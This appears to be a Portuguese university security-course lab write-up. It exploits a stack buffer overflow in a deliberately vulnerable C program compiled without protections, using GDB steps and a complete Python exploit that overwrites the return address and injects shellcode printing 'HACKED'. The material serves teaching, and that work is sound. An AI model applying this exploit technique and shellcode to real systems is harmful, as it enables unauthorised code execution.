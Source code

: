# Segurança de Software 2020

## 1 - HACKED VIRUS
### Descrição
Ataque por Buffer Overflow a um programa em C que lê ficheiro e escreve o seu conteúdo em memória.

#### Compilação
```bash
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack stack.c -o stack
```

#### Ferramentas utilizadas
* [GDB GEF](https://github.com/hugsy/gef) - Debbug
* [Python](https://www.python.org/) - Desenvolvimento do exploit
* [Objdump](https://sourceware.org/binutils/docs/binutils/objdump.html) - Visualização

#### Ficheiros auxiliares
* teste_stack_exec.c - Verificar compilação.
* findPrintf.c - Encontrar endereço da função printf.
* Virus.c - Para compilar o virus pretendido.

#### Passos
* Visualização do código fonte (stack.c)
```c
void foo(char *str, int s)
{
    char buffer[32];
    /* buffer overflow here */
    cpy(buffer, str, s);
}
```
* Causa erro
```bash
python -c 'print "A"*8*5' > smasher; ./stack
```
* Debbug (GDB)
```bash
gdb stack
```
Meter um BreakPoint no fim da função foo, antes de haver um retorno à main e correr.
```bash
gef> disas foo
```
```bash
gef> b * 0x0000000000401198
```
```bash
gef> run
gef> fin
```
Como se pode ver na imagem seguinte,  o $rip (0x0000000000401206) está a apontar para a posição de memória da função main, de forma a continuar o fluxo de programa normalmente. Vamos tentar perceber em que sitio da memoria este apontador está.
//IMAGEM 1

 Vamos agora ver com mais atenção o conteúdo da stack, utilizando como referencia o $rdi.
 ```bash
gef> x/100x 0x00007fffffffdf90 - 32
```
Como podemos ver na imagem seguinte, encontrámos os nossos  32 "A"'s (0x41) na stack, será que encontramos também o endereço de retorno? Terá que conter, como já vimos, o endereço: 0x0000000000401206
Na imagem seguinte encontramos o nosso target!
//IMAGEM2

Assim sendo, podemos agora concluir que para escrever o nosso exploit de forma a que corra o nosso vírus, teremos que chegar à posição de retorno e escrever lá um endereço a nosso favor. Para além dos 32 bytes do buffer, temos ainda o $ebp com 8 bytes. sendo os próximos 8 bytes para o endereço de retorno. 

* Compilar virus
Vamos compilar o nosso virus e passá-lo para hexadécimal de forma a ser mais fácil a sua inserção no ficheiro.
```bash
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack virus.c -o virus
```
Agora vamos copiar o código assembly para um ficheiro.
```bash
objdump virus -d
```
Vamos então começar a escrever o nosso exploit em Python
```python
buf = ('A' * 32).encode() #41
ebp = ('B' * 8).encode()  #42
call_virus = b'\xc0\xdf\xff\xff\xff\x7f\x00\x00'

virus =  b'\x55\x48\x89\xe5\x48\x83\xec\x20'
virus += b'\x89\x7d\xec\x48\x89\x75\xe0\xc6'
virus += b'\x45\xf8\x48\xc6\x45\xf9\x41\xc6'
virus += b'\x45\xfa\x43\xc6\x45\xfb\x4b\xc6'
virus += b'\x45\xfc\x45\xc6\x45\xfd\x44\xc6'
virus += b'\x45\xfe\x0a\xc6\x45\xff\x00\x48'
virus += b'\x8d\x45\xf8\x48\xba\x20\xea\xe4'
virus += b'\xf7\xff\x7f\x00\x00\x48\x89\xc7'
virus += b'\xb8\x00\x00\x00\x00\xff\xd2\xeb'
virus += b'\xe6\x0f\x1f\x44\x00\x00\x00\x00'

exploit = (buf + ebp + call_virus + virus)

file_name = 'smasher'
f = open(file_name, 'wb') #write bytes
f.write(exploit)
f.close()
```

Vamos então ver se resultou.

```bash
python exploit.py
gdb stack
gef> run
#HACKED
#HACKED
#HACKED
#HACKED
#...
```
# HACKED!

